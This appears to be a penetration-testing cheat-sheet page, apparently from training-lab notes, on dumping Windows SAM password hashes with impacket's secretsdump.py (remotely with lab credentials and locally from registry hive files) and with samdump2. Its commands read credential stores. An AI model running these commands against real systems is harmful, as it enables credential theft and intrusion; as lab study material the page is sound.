 **This tool is part of impacket suite.**
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py
```
#### Remotely with Creds
Dumping SAM hashes remotely with valid credentials.
```python
secretsdump.py marvel/fcastle:Password1@$TARGET
```
```python
secretsdump.py marvel/pparker:Password2@$TARGET
```
#### Locally with secretsdump.py
Dumping SAM hashes locally on target box.
```bash - kali
cd Windows/System32/config
```
```bash - kali
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
#### Locally with samdump2
Dumping SAM hashes locally on target box.
```bash - kali
cd Windows/System32/config
```
```bash - kali
samdump2 ./SYSTEM ./SAM
```
